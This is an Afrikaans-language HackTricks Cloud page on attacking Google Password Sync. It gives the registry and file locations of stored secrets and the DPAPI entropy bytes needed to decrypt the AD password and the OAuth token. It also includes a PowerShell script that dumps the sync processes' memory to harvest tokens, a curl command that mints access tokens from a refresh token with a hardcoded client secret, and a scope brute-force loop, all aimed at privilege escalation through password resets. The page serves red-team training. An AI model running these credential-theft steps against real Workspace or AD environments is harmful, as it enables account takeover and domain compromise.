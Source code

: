 # GPS - Google Password Sync

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

Dit is die binêre en diens wat Google bied om **die wagwoorde van die gebruikers tussen die AD** en Workspace **gesinkroniseer te hou**. Elke keer as 'n gebruiker sy wagwoord in die AD verander, word dit na Google gestel.

Dit word geïnstalleer in `C:\Program Files\Google\Password Sync` waar jy die binêre `PasswordSync.exe` kan vind om dit te konfigureer en `password_sync_service.exe` (die diens wat sal voortgaan om te loop).

### GPS - Konfigurasie

Om hierdie binêre (en diens) te konfigureer, is dit nodig om **toegang te gee aan 'n Super Admin hoof in Workspace**:

* Teken in via **OAuth** met Google en dan sal dit **'n token in die register stoor (geënkripteer)**
* Slegs beskikbaar in Domein Beheerders met GUI
* Gee 'n paar **Diensrekening akrediteeringe van GCP** (json-lêer) met regte om **die Workspace gebruikers te bestuur**
* Baie slegte idee aangesien daardie akrediteeringe nooit verval nie en misbruik kan word
* Baie slegte idee om 'n SA toegang oor workspace te gee aangesien die SA in GCP gecompromitteer kan word en dit moontlik sal wees om na Workspace te pivot
* Google vereis dit vir domein beheer sonder GUI
* Hierdie akrediteeringe word ook in die register gestoor

Ten opsigte van AD, is dit moontlik om aan te dui om die huidige **aansoek konteks, anoniem of 'n spesifieke akreditering** te gebruik. As die akreditering opsie gekies word, word die **gebruikersnaam** in 'n lêer in die **skyf** gestoor en die **wagwoord** is **geënkripteer** en in die **register** gestoor.

### GPS - Dumping wagwoord en token van skyf

{% hint style="success" %}
Let daarop dat [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in staat is om **GPS** te detecteer, inligting oor die konfigurasie te verkry en **selfs die wagwoord en token te dekripteer**.
{% endhint %}

In die lêer **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** is dit moontlik om 'n deel van die konfigurasie te vind soos die **`baseDN`** van die AD wat geconfigureer is en die **`gebruikersnaam`** wie se akrediteringe gebruik word.

In die register **`HKLM\Software\Google\Google Apps Password Sync`** is dit moontlik om die **geënkripteerde herlaai token** en die **geënkripteerde wagwoord** vir die AD gebruiker (indien enige) te vind. Boonop, as daar in plaas van 'n token, 'n paar **SA akrediteeringe** gebruik word, is dit ook moontlik om daardie geënkripteerde in daardie register adres te vind. Die **waardes** binne hierdie register is slegs **toeganklik** deur **Administrators**.

Die geënkripteerde **wagwoord** (indien enige) is binne die sleutel **`ADPassword`** en is geënkripteer met behulp van die **`CryptProtectData`** API. Om dit te dekripteer, moet jy dieselfde gebruiker wees as die een wat die wagwoord sinkronisasie geconfigureer het en hierdie **entropy** gebruik wanneer jy die **`CryptUnprotectData`** gebruik: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Die geënkripteerde token (indien enige) is binne die sleutel **`AuthToken`** en is geënkripteer met behulp van die **`CryptProtectData`** API. Om dit te dekripteer, moet jy dieselfde gebruiker wees as die een wat die wagwoord sinkronisasie geconfigureer het en hierdie **entropy** gebruik wanneer jy die **`CryptUnprotectData`** gebruik: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Boonop, dit is ook geënkodeer met base32hex met die woordeboek **`0123456789abcdefghijklmnopqrstv`**.

Die entropy waardes is gevind deur die hulpmiddel te gebruik. Dit is geconfigureer om die oproepe na **`CryptUnprotectData`** en **`CryptProtectData`** te monitor en toe is die hulpmiddel gebruik om `PasswordSync.exe` te begin en te monitor wat die geconfigureerde wagwoord en auth token aan die begin sal dekripteer en die hulpmiddel sal **die waardes vir die gebruikte entropy** in beide gevalle wys:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Let daarop dat dit ook moontlik is om die **geënde** waardes in die invoer of uitvoer van die oproepe na hierdie API's te sien (in geval Winpeas op 'n stadium ophou werk).

In die geval dat die Password Sync **geconfigureer is met SA akrediteeringe**, sal dit ook in sleutels binne die register **`HKLM\Software\Google\Google Apps Password Sync`** gestoor word.

### GPS - Dumping tokens van geheue

Net soos met GCPW, is dit moontlik om die geheue van die proses van die `PasswordSync.exe` en die `password_sync_service.exe` prosesse te dump en jy sal in staat wees om herlaai en toegang tokens te vind (indien hulle reeds gegenereer is).\
Ek vermoed jy kan ook die AD geconfigureerde akrediteringe vind.

<details>

<summary>Dump <code>PasswordSync.exe</code> en die <code>password_sync_service.exe</code> prosesse en soek tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Genereer toegangstokens vanaf hernuwingstokens

Deur die hernuwingstoken te gebruik, is dit moontlik om toegangstokens te genereer met dit en die kliënt-ID en kliëntgeheim wat in die volgende opdrag gespesifiseer is:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Let daarop dat selfs al het jy 'n hernuwingsteken, dit nie moontlik is om enige omvang vir die toegangsteken aan te vra nie, aangesien jy slegs die **omvangs wat deur die toepassing ondersteun word waar jy die toegangsteken genereer** kan aan vra.

Ook, die hernuwingsteken is nie geldig in elke toepassing nie.
{% endhint %}

Standaard sal GPS nie toegang hê as die gebruiker tot elke moontlike OAuth omvang nie, so deur die volgende skrip te gebruik, kan ons die omvangs vind wat met die `refresh_token` gebruik kan word om 'n `access_token` te genereer:

<details>

<summary>Bash script om omvangs te brute-force</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

En dit is die uitvoer wat ek op die tyd van skryf gekry het:
```
https://www.googleapis.com/auth/admin.directory.user
```
Wat dieselfde is as wat jy kry as jy geen omvang aandui nie.

{% hint style="danger" %}
Met hierdie omvang kan jy **die wagwoord van 'n bestaande gebruiker verander om voorregte te verhoog**.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
